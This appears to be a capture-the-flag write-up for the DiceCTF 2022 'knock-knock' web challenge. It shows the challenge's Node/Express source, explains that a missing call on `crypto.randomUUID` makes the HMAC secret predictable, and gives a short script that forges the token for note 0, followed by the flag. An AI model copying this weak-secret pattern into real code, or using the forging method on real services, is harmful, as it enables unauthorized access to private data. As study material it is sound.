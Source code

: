 ```yaml
---
title: "[DICECTF] knock-knock"
excerpt_separator: <!--more-->
categories:
  - CTF
tags:
  - DICECTF
  - Web
  - "2022"
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


### Task source:
https://github.com/Tzion0/CTF/tree/master/DiceCTF/2022/knock-knock

Looking at the webpage, it is a site similar to pastebin that let us to create paste.

![IMG](/assets/images/dicectf2022-knock-knock/img.png)

After clicking the `create` button, it will redirect us to a page with an unique token that contains our paste:

```
https://knock-knock.mc.ax/note?id=2249&token=262fedf8ca783b2fd19c581064ab48511877fe2bff4f3ad79726c9ae8277cfd5
```

<!--more-->

Fortunately we have source code comes with this challenge:

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});

```

Looking at the source code, we can determine that the value of param `id` will increase by 1 everytime someone create a paste, while the token is created by using `crypto.createHmac()` with a secret key.

It tooks me a while to actually notice where the vulnerability is. In fact, the vulnerability is hiding in this code:

```js
constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
}
```

The calling of `crypto.randomUUID` missing parentheses, it actually will always return the following on recommended version of nodejs:

```js
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```
#### Note: For lower version of nodejs, it will return `undefined` instead.

So the correct code should be `crypto.randomUUID()` to get the proper random secret. With that, I create a small script to generate URL of other paste, I assuming that the first paste `id=0` is the flag:

```js
const crypt = require('crypto');
secret = `secret-${crypt.randomUUID}`;

console.log(`https://knock-knock.mc.ax/note?id=0&token=${crypt.createHmac('sha256', secret).update('0').digest('hex')}`);
```

Output:
```
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

Flag:
```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```